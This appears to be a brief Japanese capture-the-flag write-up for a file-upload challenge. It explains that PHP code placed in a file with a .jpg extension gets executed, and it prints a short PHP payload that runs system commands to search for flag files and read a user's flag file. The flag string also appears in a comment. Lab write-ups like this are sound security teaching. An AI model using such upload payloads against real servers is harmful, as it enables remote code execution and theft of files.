



# Writeup

ページにアクセスすると、ファイルアップロードの画面が表示される。



特定の画像ファイルしかアップロードできないが、`.jpg`という拡張子のファイルにPHPコードを書くと実行させることができる。

```php
<?php 
system("find / -name *flag*");
echo "<br>";
system("cat /home/hermit/userflag.txt");
?>
```





<!-- UMASS{a_picture_paints_a_thousand_shells} -->